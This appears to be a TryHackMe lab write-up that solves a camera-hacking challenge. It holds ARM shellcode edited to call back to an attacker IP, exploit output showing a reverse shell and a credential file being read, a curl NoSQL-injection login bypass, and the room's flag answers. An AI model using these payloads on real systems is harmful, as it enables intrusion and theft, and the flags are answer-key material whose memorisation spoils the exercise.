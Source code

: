 # https://tryhackme.com/jr/armageddon2R

+ What is the content of the first flag? `THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`
+ What is the content of the yetikey2.txt file? `2-K@bWJ5[REDACATED]ksaK`


### Reconnaise
+ Run `sudo nmap -sT -sC -sV $IP > nmap_log`
+ Download the payload to `Trivision Wireless Streaming Video IP Network Camera`

+ Modyfied payload for ip address Little Endian 10.4.37.160
```asm
mov r1,#0x29
lsl r1,r1,#8
add r1,r1,#0x07
lsl r1,r1,#8
add r1,r1,#0x05
add r1,r1,#0x05
lsl r1,r1,#8
add r1,r1,#0x05
add r1,r1,#0x05
push {r1}
```
+ Byte for ip address Little Endian 10.4.37.160
```asm 
mov r1,#0x95
add r1,r1,#0x05
lsl r1,r1,#8
add r1,r1,#25
lsl r1,r1,#8
add r1,r1,#0x04
lsl r1,r1,#8
add r1,r1,#0x05
add r1,r1,#0x05
str r1,[sp,#-4]!
```


# Exploit 
+ run the exploit 
    ```bash
    root@ip-10-10-7-41:~# python exp.py 
    [*] Shellcode length: 860
    [+] Opening connection to 10.10.93.155 on port 50628: Done
    [+] Trying to bind to 0.0.0.0 on port 4444: Done
    [+] Waiting for connections on 0.0.0.0:4444: Got connection from 10.10.93.155 on port 55741
    [*] Switching to interactive mode

    $ cat /var/etc/umconfig.txt
    TABLE=users
    ROW=0
    name=admin
    password=Y3tiStarCur!ouspassword=admin
    group=administrators
    prot=0
    disable=0
    [More bunch...]


    $curl -s -u 'admin:Y3tiStarCur!ouspassword=admin' http://10.10.93.155:8080/login.php -X POST -d 'username=Frosteau&password[$regex]=.*' -c cookie.txt -L
    [More bunch...]
    <header>
        <div class="max-w-7xl mx-auto px-4 sm:px-6 lg:px-8 py-8 bg-thm-800">
          <h1 class="text-3xl font-bold leading-tight text-center text-gray-100 ">Welcome Frosteau!</h1>
                      <fieldset class="border border-solid border-thm-600 pt-3 pb-5 px-3 relative mt-6 bg-thm-900 w-full">
              <legend class="text-sm text-gray-100 -top-4 absolute bg-thm-900 border border-solid border-thm-600 py-1 px-3">Important Notes</legend>
              <ul class="list-disc text-gray-100">
                <li class="text-sm mt-3 font-medium ml-6">yetikey2.txt</li>
                <li class="text-sm mt-3 font-medium ml-6">2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK</li>
              </ul>
            </fieldset>
                  </div>
      </header>

    [More bunch...]
    ```



